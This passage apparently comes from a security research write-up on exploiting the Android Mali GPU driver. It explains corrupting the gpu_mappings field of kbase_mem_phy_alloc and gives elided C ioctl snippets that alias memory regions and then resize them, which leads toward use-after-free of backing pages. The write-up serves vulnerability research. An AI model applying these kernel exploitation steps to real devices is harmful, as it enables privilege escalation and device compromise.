 So, what should I rewrite in this object? There are many options, for example, rewriting the `kref` field can easily cause a refcounting problem and turn this into a UAF of a `kbase_mem_phy_alloc`, which is easy to exploit. It is, however, much simpler to just set the `gpu_mappings` field to zero:

```
struct kbase_mem_phy_alloc {
    struct kref           kref;
    atomic_t              gpu_mappings;
    atomic_t              kernel_mappings;
    size_t                nents;
    struct tagged_addr    *pages;
    ...
}


```

The Mali driver allows memory regions to share the same backing pages via the `[KBASE_IOCTL_MEM_ALIAS](https://android.googlesource.com/kernel/google-modules/gpu/+/refs/heads/android-gs-raviole-5.10-android13/mali_kbase/mali_kbase_mem_linux.c#1765)` `ioctl` call. A memory region created by `KBASE_IOCTL_MEM_ALLOC` can be aliased by passing it as a parameter in the call to `KBASE_IOCTL_MEM_ALIAS`:

```
  union kbase_ioctl_mem_alloc alloc = ...;
  ...
  ioctl(mali_fd, KBASE_IOCTL_MEM_ALLOC, &alloc);
  void* region = mmap(NULL, ..., mali_fd, alloc.out.gpu_va);
  union kbase_ioctl_mem_alias alias = ...;
  ...
  struct base_mem_aliasing_info ai = ...;
  ai.handle.basep.handle = (uint64_t)region;
  ...
  alias.in.aliasing_info = (uint64_t)(&ai);
  ioctl(mali_fd, KBASE_IOCTL_MEM_ALIAS, &alias);
  void* alias_region = mmap(NULL, ..., mali_fd,  alias.out.gpu_va);


```

In the above, a memory region is created using `KBASE_IOCTL_MEM_ALLOC`, and mapped to `region`. This region is then passed to the `KBASE_IOCTL_MEM_ALIAS` call. After mapping the result to user space, both `region` and `alias_region` share the same backing pages. As both regions now share the same backing pages, `region` must be prevented from resizing via the `KBASE_IOCTL_MEM_COMMIT` `ioctl`, otherwise the backing pages may be freed while it is still mapped to the `alias_region`:

```
  union kbase_ioctl_mem_alloc alloc = ...;
  ...
  ioctl(mali_fd, KBASE_IOCTL_MEM_ALLOC, &alloc);
  void* region = mmap(NULL, ..., mali_fd, alloc.out.gpu_va);
  union kbase_ioctl_mem_alias alias = ...;
  ...
  struct base_mem_aliasing_info ai = ...;
  ai.handle.basep.handle = (uint64_t)region;
  ...
  alias.in.aliasing_info = (uint64_t)(&ai);
  ioctl(mali_fd, KBASE_IOCTL_MEM_ALIAS, &alias);
  void* alias_region = mmap(NULL, ..., mali_fd,  alias.out.gpu_va);

  struct kbase_ioctl_mem_commit commit = ...;
  commit.gpu_addr = (uint64_t)region;
  ioctl(mali_fd, KBASE_IOCTL_MEM_COMMIT, &commit);  


```

